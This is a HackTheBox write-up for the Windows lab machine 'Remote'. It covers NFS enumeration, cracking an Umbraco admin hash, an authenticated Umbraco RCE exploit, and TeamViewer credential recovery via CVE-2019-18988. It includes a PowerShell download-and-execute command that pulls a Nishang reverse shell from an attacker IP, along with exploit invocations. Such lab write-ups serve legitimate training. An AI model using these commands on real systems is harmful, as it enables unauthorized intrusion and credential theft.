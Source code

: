 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Remote/logo.png
date: 2023-12-16 09:45:47+07:00
modified: 2023-12-16 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Remote, NFS, Anonymous, decrypt, CME, Umbraco, CVE-2019-18988, Teamviwer, Nishang, Windows, OSCP, Writeup]
title: Remote - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Remote is an **easy** difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using psexec with these credentials returns a SYSTEM shell. 


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.180`

`nmap -sC -sV -p21,22,80,135,139,445,5985,39517 10.10.10.180 -oA ./nmap/remote `

|Ports|Service
|:-------------:|:-------------:|
|21| ftp     Microsoft ftpd
|80| http    Microsoft HTTPAPI httpd 2.0 
|111| rpcbind
|139| netbios-ssn Microsoft Windows netbios-ssn
|445| microsoft-ds
|2049| nlockmgr
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Remote/1.png)

First I checked the FTP server. It allowed for anonymous login but it was empty.

![](https://photos.squarezero.dev/file/abir-images/Remote/2.png)

Next, I check out the website. On the `/people` there are some names we can take notes of.

![](https://photos.squarezero.dev/file/abir-images/Remote/3.png)

I ran `dirsearch` in the background and found some interesting directories.

```Bash
dirsearch -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Remote/4.png)

We can find a login page at `/umbraco` which is a CME. 

![](https://photos.squarezero.dev/file/abir-images/Remote/5.png)

We can find a NFS share.

![](https://photos.squarezero.dev/file/abir-images/Remote/6.png)

Let's mount the share.

```bash
mkdir target-NFS
sudo mount -t nfs 10.10.10.180:/site_backups ./target-NFS -o nolock
cd target-NFS
```
![](https://photos.squarezero.dev/file/abir-images/Remote/7.png)


# Foothold

After looking for a bit I found `Umbraco.sdf` and we can password hashes for users inside it

![](https://photos.squarezero.dev/file/abir-images/Remote/8.png)

I used [crackstation](https://crackstation.net/)

![](https://photos.squarezero.dev/file/abir-images/Remote/9.png)

Creds → `admin@htb.local : baconandcheese`

I can now log into the website admin panel.

![](https://photos.squarezero.dev/file/abir-images/Remote/10.png)

After looking for a bit I found this authenticated RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/49488). I downloaded the Python file and checked out the payload.
It takes the user and password for authentication, takes the type of shell and uses arguments to execute.

![](https://photos.squarezero.dev/file/abir-images/Remote/11.png)

We have RCE on the server now.

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "whoami"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/12.png)

Next, I used [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` to get a shell.

At the bottom of the PowerShell script, I added my reverse shell IP and port.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 4444`

Then hosted the payload using the python3 server.

`python3 -m http.server`

After that I used RCE payload to download my PowerShell script and get a shell

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/13.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/14.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/15.png)


# Privilege Escalation

In tasklist We can see `TeamViewer_Service.exe`

![](https://photos.squarezero.dev/file/abir-images/Remote/16.png)

After looking for a bit I found this [CVE-2019-18988](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) where Teamviwer leaking creds.

![](https://photos.squarezero.dev/file/abir-images/Remote/17.png)

We can leak the creds using this

`reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![](https://photos.squarezero.dev/file/abir-images/Remote/18.png)

Next, I used this decryptor to decrypt the password. 

![](https://photos.squarezero.dev/file/abir-images/Remote/19.png)

Creds → `administrator : !R3m0te!`

Now we can use WINRM to log in and get the flag.


![](https://photos.squarezero.dev/file/abir-images/Remote/20.png)